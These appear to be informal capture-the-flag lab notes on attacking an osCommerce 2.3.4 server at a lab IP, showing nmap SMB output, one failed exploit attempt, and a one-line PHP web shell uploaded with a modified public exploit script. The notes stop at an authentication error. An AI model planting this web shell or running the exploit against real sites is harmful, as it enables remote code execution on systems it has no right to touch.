 ```
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.19 seconds
```


### HTTP 8080

- found multiple files at http://10.10.220.55:8080/oscommerce-2.3.4/docs/
- "osCommerce Online Merchant v2.3.4" is installed

- following this exploit
https://www.exploit-db.com/exploits/44374


http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/


10.10.220.55:8080

this exploit was not successfull


### Foothold

- Using a different writeup

- created a php RCE shell 
```
   │   ~/Desktop/THM/blueprint ▓▒░ cat shell.php                                                                             ░▒▓ ✔ │ 22:32:17   
 
<?php passthru($_GET['cmd']); ?>%
```

- made some changes in the 43191.py https://www.exploit-db.com/exploits/43191
(just put the brackets where it is giving error)

and change `import urlparse` to `from urllib.parse import urlparse`


- now running the exploit command

```
python3 43191.py -u http://10.10.220.55:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php
```

we encounter an error

```
[-] The script wasn't able to authenticate itself to osCommerce. Are you sure that the credentials are correct? Is http://10.10.220.55:8080/oscommerce-2.3.4/catalog/admin/login.php the Admin Path?
```
